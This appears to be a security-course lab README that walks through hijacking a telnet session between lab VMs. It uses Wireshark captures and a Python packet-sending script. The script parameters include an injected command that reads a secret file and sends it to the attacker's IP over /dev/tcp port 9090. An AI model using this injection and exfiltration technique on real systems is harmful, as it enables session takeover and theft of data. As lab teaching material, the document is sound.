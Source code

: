 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name | Role                 | IP Address |
|---------|----------------------|------------|
| VM1     | victim client        | 10.0.2.4   |
| VM2     | victim telent server | 10.0.2.5   |
| VM3     | attacker             | 10.0.2.6   |

### Steps

1. Let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. The client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. The client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

4. Let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

5. Client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

6. Attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server. Now we need to examine this packet carefully, so as to obtain the ip addresses, the ttl attribute, the port numbers, the next sequence number, the acknowledgment number, and the window size.

This image shows the IP header, from which we see the ip addresses, and the ttl attribute.
![alt text](lab-tcp-hijack-ip-header.png "Lab tcp hijack latest tcp capture - part 1, ip header")

This image shows the TCP header, from which we see the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-tcp-header.png "Lab tcp hijack latest tcp capture - part 2, tcp header")

7. The above packet provides the information which the attacker needs to know in order to perform the tcp session hijack attack. Now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 59830
destination_port = 23
sequence_num = 3366342961
acknowledgment_num = 4096614496
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *3366342961*, the acknowledgment number is *4096614496*; the source port (in this example) is *59830*, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address.

8. Once the above 9 lines are modified correctly, we are ready to launch the attack, which is just running the python script. Before running the python script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:
![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:
![alt text](lab-tcp-hijack-before-enter.png "Lab tcp hijacking attack before pressing enter")
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after pressing enter")

9. Once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
